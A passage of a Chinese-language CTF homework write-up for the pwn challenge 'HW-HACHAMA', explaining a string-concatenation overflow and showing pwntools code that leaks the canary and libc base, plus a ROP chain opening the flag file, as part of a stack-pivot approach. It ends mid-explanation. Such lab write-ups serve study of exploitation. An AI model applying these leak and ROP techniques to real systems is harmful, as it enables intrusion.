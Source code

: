 ## HW-HACHAMA
Flag: `flag{https://www.youtube.com/watch?v=qbEdlmzQftE&list=PLQoA24ikdy_lqxvb6f70g1xTmj2u-G3NT&index=1}`

### 解題流程與思路
:::warning
切記題目用read接，所以不需要null byte做結尾，另外題目使用的libc是ubuntu 22.04.2的版本，所以可以用docker把libc資料撈出來，再針對這個做應用
:::
這一題我覺得出的很好，有很特別的exploit，也需要用到很多前兩周學會的幾乎所有技能，包含BOF / return 2 libc / stack pivot / ROP等等

1. ==**漏洞在哪裡???**==
    首先，乍看之下會不知道這個洞在哪裡，不過多try幾次或是跟一下動態會發現，他做的事情會蓋到原本==n2==的數值，導致我們之後可以輸入更多的東西
    詳細來說就是:
    因為在#61的地方輸入的東西被存到local variable name，而在#63會被copy到global variable ==msg==，並且和` hachamachama`合併在一起，如果一開始我們輸入的東西是20個字元，而concatenate的` hachamachama`總共13個字元，加起來就已經是==33==個字元，但如下圖所示，msg一開始的大小就被限制在32 bytes，也就是說他會蓋到後面n2的值
    ![圖片](https://hackmd.io/_uploads/HyUsSOTBT.png)
    從下圖可以看出來，因為長度超過的關係，原本`hachamachama`的最後一個字元，也就是0x61往後蓋到n2的值，這代表我們在往後的地方可以多加利用
    ![圖片](https://hackmd.io/_uploads/SJUTP_aBT.png)

2. 知道漏洞在哪裡之後，我們就可以利用這個洞，把stack的東西leak出來
    ```python
    payload = b'HACHAMA'.ljust(0x8, b'\x00')
    r.send(payload)
    result = r.recv(0x61)
    log.info("[-------------Stack Info-------------]")
    for i in range(12):
        log.info(hex(u64(result[i * 8:i * 8 + 8])))
    log.info("[-------------Stack Info-------------]")

    canary = u64(result[7 * 8:7 * 8 + 8])
    libc_start_main = u64(result[9 * 8:9 * 8 + 8]) - 0x80
    libc_base_addr = libc_start_main - 0x29d90 + 0x80
    main_fn_addr = u64(result[11 * 8:11 * 8 + 8])
    code_segment_base = main_fn_addr - 0x331

    log.success(f'Canary = {hex(canary)}')
    log.success(f'libc start main base = {hex(libc_start_main)}')
    log.success(f'libc base addr = {hex(libc_base_addr)}')
    log.success(f'Main Function Address = {hex(main_fn_addr)}')
    log.success(f'Code Segment = {hex(code_segment_base)}')
    ```
3. 有了canary / libc base 和code segment base / main function address，就可以來搞事了，初步的想法是直接寫一個open / read / write的syscall(因為seccomp的關係導致我們的操作極其有限)，不過因為我們也只是多了0x31的空間可以寫ROP，代表一定沒辦法把所有的shellcode都寫上去，這時候就需要用到stack pivot的技術，開一個相對大的空間繼續我們的作業，但就像@ccccc說的
    > stack pivot只是把你的stack用到其他地方而已，並不會因為你換了stack的位置你就能overflow比較多

    所以比較正確的觀念是，我先利用多出來的0x31把可以用的空間開大，再寫gadget，會比較方便，如果是像lab那樣每一個步驟都切成一個stack pivot的話也不現實，因為一個操作所需要的空間一定大於0x31，隨便舉個例子，如果是open→`fd = open("/home/chal/flag.txt", 0);`，全部的payload如下:
    ```python
    payload = b'/home/chal/flag.txt'.ljust(0x38, b'\x00')
    payload += flat(
        canary,
        0,
        pop_rax_ret, 2,
        pop_rdi_ret, bss_addr_flag - 0x40,
        pop_rdx_rbx_ret, 0, 0,
        pop_rsi_ret, 0,
        syscall_ret
    )
    ```
    最少也需要0x98的空間，所以擴大可以寫的空間是必要的，但我還是稍微嘮叨一下，一開始我的想法是直接把n2的數值改掉，這樣就可以解決上述的問題，但實際操作會發現這也不現實，因為payload也會過長，如下